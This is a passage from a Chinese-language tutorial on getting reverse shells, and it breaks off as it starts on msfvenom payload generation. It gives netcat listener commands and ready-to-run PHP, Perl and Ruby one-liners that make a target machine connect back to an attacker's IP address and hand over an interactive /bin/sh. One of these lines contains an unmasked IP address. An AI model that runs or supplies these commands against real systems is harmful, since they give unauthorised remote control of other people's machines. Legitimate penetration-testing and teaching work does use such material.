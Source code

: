 
执行效果如下：

### php 脚本反弹shell

当目标主机上有php环境时，我们可以用php来反弹shell。

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'  
 

### Perl 脚本反弹shell

当目标主机上有perl环境时，我们可以用perl来反弹shell。

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
 

执行效果如下：

### Ruby脚本反弹shell

当目标主机上有ruby环境时，我们可以用ruby来反弹shell。

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

ruby -rsocket -e 'c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
或  
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
 

执行效果如下：

## 使用Metasploit生成反弹shell用的一句话

强大的Metasploit框架也为我们提供了生成一句话反弹shell的工具，即msfvenom，绝对的实用。当我们不记得前面说的所有反弹shell的反弹语句时，只要我们有Metasploit，那么我们随时都可以使用 msfvenom -l 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。

我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/unix/reverse），列出我们需要生成的各类反弹shell一句话的payload：
